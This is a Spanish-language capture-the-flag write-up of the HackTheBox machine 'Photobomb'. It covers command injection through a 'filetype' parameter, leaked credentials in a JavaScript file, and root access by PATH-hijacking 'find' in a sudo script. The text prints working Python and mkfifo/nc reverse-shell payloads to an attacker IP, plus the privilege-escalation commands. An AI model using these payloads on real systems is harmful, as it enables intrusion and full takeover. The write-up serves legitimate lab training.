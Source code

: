 ```yaml
---
title: Photobomb - HackTheBox
categories: [ Linux ]
tags: [HackTheBox]
---
```


<img src="/assets/img/HTB/Photobomb/Photobomb.jpg">

Hoy tocará explotar la máquina **Photobomb** de [HackTheBox](https://app.hackthebox.com/machines/photobomb), es de dificultad fácil. Haremos un `command injection` y para la escalada haremos un `Path Hijacking`


## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.182 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 13:24 -04
Initiating SYN Stealth Scan at 13:24
Scanning 10.10.11.182 [65535 ports]
Discovered open port 80/tcp on 10.10.11.182
Discovered open port 22/tcp on 10.10.11.182
Completed SYN Stealth Scan at 13:24, 17.92s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.16s latency).
Scanned at 2023-02-04 13:24:12 -04 for 18s
Not shown: 61907 closed tcp ports (reset), 3626 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
           Raw packets sent: 87248 (3.839MB) | Rcvd: 67894 (2.716MB)
```



Nos percatamos que tiene el SSH abierto y el puerto 80 que corresponde al HTTP, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:



```bash
echo "10.10.11.182       photobomb.htb" | tee -a /etc/hosts
```

## Enumeración

Vemos una pagina de inicio con un redirect a `/printer`


 ![WebSite]({{ '/assets/img/HTB/Photobomb/main.png' | relative_url }}){: .center-image }
 _Web Site_


Si intentamos acceder nos pedirá credenciales

 ![login]({{ '/assets/img/HTB/Photobomb/login.png' | relative_url }}){: .center-image }
 _Log in_

Podemos probar credenciales típicas por defecto, pero no resultará útil.

```
admin:admin
admin:password
admin:pass
guest:guest

```
Si revisamos el código fuente nos encontramos con cosaas interesantes.

Le aplicamos un **curl**.
```bash
❯ curl -s -X GET http://photobomb.htb
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```
Podemos ver un script de JavaScript, si vemos su contenido se nos filtra una cookie

```bash
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
Al copiar dicha cookie, podemos ver el panel `/printer`.

![login]({{ '/assets/img/HTB/Photobomb/confirm.png' | relative_url }}){: .center-image }
_Log in_

## Explotación

En este apartado vemos unas imagenes las cuales podemos descargar y hacer pequeñas modificaciones como ser:
>Cambiarle la extensión y modicar el tamaño.


![printer]({{ '/assets/img/HTB/Photobomb/printer.png' | relative_url }}){: .center-image }
_Printer_

Podemos interceptar la petición con BurpSuite y ver mas a detalles como se estructura todo

![Burp]({{ '/assets/img/HTB/Photobomb/burp.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver si es vulnerable a un **Command injection**, pero antes que nada inicia un servidor con `python`

```bash
python -m http.server 80
```
Mandamos la petición al `Repeater`, para ello presionamos `Ctrl + R`
Si nos fijamos en los parametros podemos agregar `;` y añadir nuestro comando, se vería así

![BurpSuite]({{ '/assets/img/HTB/Photobomb/burp1.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver que no le gusta en algunos parametros, pero con haciendo prueba y error encontramos que el parametro `filetype` es vulnerable, lo podemos comprobar en la petición

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [04/Feb/2023 14:45:12] "GET / HTTP/1.1" 200 -
```
Podemos intentar enviarnos una reverse shell, usano esta [página](https://www.revshells.com/) podemos hacer la reverse shell con varias opciones.
Probaremos con bash pero no funciona, así que podemos probar con python3 y esta nos lanzará la shell

```python
export RHOST="10.10.14.25";export RPORT=444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
![RCE]({{ '/assets/img/HTB/Photobomb/burp2.png' | relative_url }}){: .center-image }
_RCE_


>Nota: Si usas nc mkfifo y url encode te lanzará la shell igual

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.25%20444%20%3E%2Ftmp%2Ff
```

Ganamos acceso a la máquina, estamos listos para rootearla
```bash
❯ nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.182] 49946
wizard@photobomb:~/photobomb$ 
```
Toca realizar un tratamiento a la tty, te puedes guiar de mi [blog](https://h4ckerlite.github.io/posts/tty).


Una vez adentro podemos leer la primera flag

```bash
wizard@photobomb:~/photobomb$ cat ../user.txt 
06****************************78
wizard@photobomb:~/photobomb$ 
```



## Escalada de privilegios

Si vemos los privilegios **SUDOERS** vemos que podemos ejecutar un programa hecho en **bash**

```bash
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```
Vemos que lo podemos ejecutar sin proporcionar ninguna contraseña, es decir que al ejecuralo como **sudo** sera ejecutado de forma temporal como root sin proporcionar contraseña

```bash
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh 
wizard@photobomb:~/photobomb$ 
```

Si vemos el contenido de dicho archivo nos encontramos con binarios que podemos usar para elevar nuestros privilegios.

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~/photobomb$ 

```
Vemos que el binario `find` esta con ruta relativa no absoluta y esto puede derivar a un **Path Hijacking**, 

Podemos aprovechar que podemos cambiar variables de entorno como el Path para que nos ejecute el comando find personalizado, y bajo el contexto de sudo nuestro binario find lo ejecutará root.

```bash
wizard@photobomb:/tmp$ echo bash > find
wizard@photobomb:/tmp$ chmod 777 find 
wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -l /bin/bash
root@photobomb:/home/wizard/photobomb# 

```
Ya rooteamos la máquina, lo que hicimos fue hacer un binario perzonalizado find que nos lanze una bash como root, en este caso, ya que el esta ejecutando el `/opt/cleanup.sh` con el binario find de forma relativa.
Procedemos a leer la flag

```bash
root@photobomb:/home/wizard/photobomb# cat /root/root.txt 
74****************************35
root@photobomb:/home/wizard/photobomb# 
```
¡¡¡Máquina Pwneada!!! Te deseo un Feliz Hackeo.

